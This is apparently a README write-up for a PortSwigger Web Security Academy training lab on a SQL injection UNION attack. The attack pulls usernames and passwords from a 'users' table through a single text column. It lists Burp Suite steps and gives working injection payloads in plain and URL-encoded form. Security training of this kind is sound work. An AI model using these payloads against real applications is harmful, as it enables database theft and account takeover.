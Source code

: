 # Lab 6: SQL injection UNION attack, retrieving multiple values in a single column

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform an SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

## Hint
You can find some useful payloads on our [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).

## Solution
> Manual
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, only one of which contain text, using a payload like the following in the category parameter: ```'+UNION+SELECT+NULL,'abc'--```
3. Use the following payload to retrieve the contents of the users table: ```'+UNION+SELECT+NULL,username||'~'||password+FROM+users--```
4. Verify that the application's response contains usernames and passwords.

> Scripting the attack: [Script](https://github.com/darshannn10/PortSwiggers-Web-Sec-Academy/blob/main/SQL-Injection/Lab-06/sqli-lab-06.py)

## Payload:
Normal: ``'  UNION SELECT NULL,username ||':'|| password FROM users--```

URL-Encoded: ```%27+UNION+SELECT+NULL,username||%27:%27||password+FROM+users--```

## Video Solution:
1. [Manual](https://youtu.be/yRVYoqR9vrI)
2. [Automating](https://www.youtube.com/watch?v=Hw6tN5K7Uhg&list=PLuyTk2_mYISLaZC4fVqDuW_hOk0dd5rlf&index=7)

